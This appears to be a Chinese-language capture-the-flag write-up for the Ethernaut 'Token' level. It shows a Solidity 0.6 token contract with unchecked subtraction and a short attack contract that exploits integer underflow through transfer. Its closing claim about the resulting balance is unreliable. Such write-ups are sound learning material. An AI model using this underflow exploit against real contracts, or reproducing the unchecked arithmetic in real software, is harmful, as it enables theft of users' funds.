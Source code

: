 ```yaml
---
title: ethernaut NO.5
tags： TeXt
---
```




首先来看合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}

```

**合约中本来有20个代币，要求获得1个或者更多**

<span style="color: red;">关键点</span>: 这个合约的solidity版本是0.6的，该版本没有设置整型溢出的检测，所以我们可以利用整型溢出来完成这道题；

以下是攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to ,uint256 value) external returns (bool);
}
contract Hcak{
    constructor (address _target){
        IToken(_target).transfer(msg.sender,1);
    }
}
```

需要做的是将该合约部署在需要攻击的合约地址中，然后调用IToken就可以查询合约的代币数量为21；

